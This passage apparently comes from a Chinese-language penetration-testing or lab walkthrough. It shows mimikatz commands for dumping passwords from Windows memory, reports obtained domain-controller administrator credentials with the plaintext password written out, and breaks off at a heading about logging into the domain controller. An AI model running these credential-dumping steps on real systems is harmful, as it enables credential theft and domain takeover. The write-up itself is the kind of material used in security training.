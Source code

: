 ![img](assets/1685521492778-e97803e3-6ed5-4b4d-8bf6-e1186ebed06d-1703395172702133.png)

mimikatz抓取内存密码

mimikatz.exe 

privilege::debug

sekurlsa::logonpasswords

![img](assets/1685523095442-8f994ecc-2b0d-47c5-9f46-f888ed297cc8-1703395172702135.png)

拿到域控用户名密码Administrator:zxcASDqw123!!

### 登录域控
